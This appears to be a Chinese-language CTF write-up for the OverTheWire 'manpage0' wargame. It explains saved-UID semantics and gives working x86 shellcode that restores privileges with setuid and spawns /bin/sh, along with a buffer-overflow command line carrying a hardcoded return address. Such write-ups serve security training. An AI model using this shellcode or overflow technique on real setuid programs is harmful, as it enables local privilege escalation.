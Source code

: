 ```yaml
---
title: manpage0
author: rk700
layout: post
redirect_from:
  - /writeup/2014/07/18/manpage0
  - /writeup/2014/07/18/manpage0/
tags:
  - OverTheWire
  - exploit
---
```

有2点：

1.  execve，如果ST_NOSUID没有设的话，新执行的程序的rid不变，eid会变如果suid设了，saved suid也会被保存为eid，这样我们就可以在之后用setuid来恢复
2.  setuid如果权限够了(root?)，就把2个id都设了；否则只设eid，rid和saved suid不变

于是还是溢出，不过shellcode中要先恢复权限 

{% highlight nasm %}
BITS 32
;setuid
xor ebx, ebx 
mov bx, 17001
xor eax, eax 
mov al, 23
int 0x80

xor eax, eax 
push eax 
mov edx, esp 
push 0x68732f2f
push 0x6e69622f ;/bin//sh
mov ebx, esp 
push eax 
push ebx 
mov ecx, esp 
mov al, 11
int 0x80
{% endhighlight %}

dest和返回地址距离是256+8+4=268，于是

<pre>$ /manpage/manpage0 `perl -e 'print "A"x268 . "\xd8\xd8\xff\xff"'`</pre>
